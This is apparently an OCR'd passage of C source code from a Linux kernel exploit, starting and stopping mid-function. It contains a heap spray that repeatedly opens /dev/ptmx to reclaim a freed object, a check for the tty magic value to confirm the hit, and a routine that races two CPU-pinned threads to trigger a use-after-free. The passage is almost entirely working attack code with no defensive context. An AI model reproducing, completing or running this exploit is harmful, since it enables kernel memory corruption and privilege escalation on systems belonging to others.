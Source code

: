 ```c

    // Limit thread to one CPU
    cpu_set_t *cpu_set = (cpu_set_t*)arg;
    if (sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set)) {
        perror("sched_setaffinity error");
    }

    for (int i = 0; i < 800; i++) {
        //usleep(10);

        spray[i] = open("/dev/ptmx", O_RDONLY | O_WRONLY);
        // If spray fails close all handles and return
        if (spray[i] == -1) {
            puts("[-] FAIL spray");
            for (int j = 0; j < i; j++) {
                close(spray[j]);
            }
            return (void*)-1;
        }

        // Check if spray hit the UAF area
        if (read(fd2, &x, sizeof(int)) == sizeof(int) && x == 0x5401) {
            printf("[+] Spray hit! x=0x%x\n", x);
            // Close all other handles
            for (int j = 0; j < i; j++) {
                close(spray[j]);
            }
            // Return fd that controls UAF area
            return (void*)spray[i];
        }
    }
    for (int i = 0; i < 800; i++) {
        close(spray[i]);
    }
    puts("[+] Spray did not hit");

    return (void*)-1;
}

int trigger_race_condition_uaf() {
    pthread_t th1, th2;
    long victim_fd = -1;
    int x;

    cpu_set_t t1_cpu, t2_cpu;

    // Create CPU set
    CPU_ZERO(&t1_cpu);
    CPU_ZERO(&t2_cpu);
    CPU_SET(0, &t1_cpu);
    CPU_SET(1, &t2_cpu);

    // Check which fd will be assigned after UAF and assign them automatically
    fd1 = open("/tmp", O_RDONLY);
    fd2 = open("/tmp", O_RDONLY);
    close(fd1);
    close(fd2);
    printf("[+] fd1=%d, fd2=%d\n", fd1, fd2);

    // Race
    pthread_create(&th1, NULL, race_fd, (void*)&t1_cpu);
    pthread_create(&th2, NULL, race_fd, (void*)&t2_cpu);
    pthread_join(th1, NULL);
```